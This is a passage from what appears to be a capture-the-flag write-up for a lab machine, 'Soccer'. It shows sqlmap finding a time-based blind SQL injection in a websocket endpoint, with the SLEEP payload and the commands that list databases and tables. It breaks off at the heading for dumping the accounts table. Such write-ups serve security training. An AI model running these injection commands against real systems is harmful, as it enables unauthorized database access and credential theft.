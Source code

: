         Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: {"id": "1234 AND (SELECT 5403 FROM (SELECT(SLEEP(5)))gMBy)"}
    ---
    [21:32:37] [INFO] the back-end DBMS is MySQL
    back-end DBMS: MySQL >= 5.0.12
    ...[snip]...
    

It’s using the `OR` structure for boolean rather than `UNION`.

### Enumerate DB

#### List Databases

Now that `sqlmap` has found an injection, I’ll up-arrow and add `--dbs` to the
previous command. Theads are safe to do in a boolean injection, so I’ll add
`--threads 10` to speed it up. It will pick up where it left off and list the
available databases:

    
    
    oxdf@hacky$ sqlmap -u ws://soc-player.soccer.htb:9091 --dbs --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
    ...[snip]...
    available databases [5]:
    [*] information_schema
    [*] mysql
    [*] performance_schema
    [*] soccer_db
    [*] sys
    ...[snip]...
    

#### List Tables in soccer_db

`soccer_db` seems like the only non-default DB. I’ll replace `--dbs` with `-D
soccer_db` to specify that database and then add `--tables` to list the
tables:

    
    
    oxdf@hacky$ sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db --tables --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
    ...[snip]...
    Database: soccer_db
    [1 table]
    +----------+
    | accounts |
    +----------+
    ...[snip]...
    

There’s only one.

#### Dump accounts
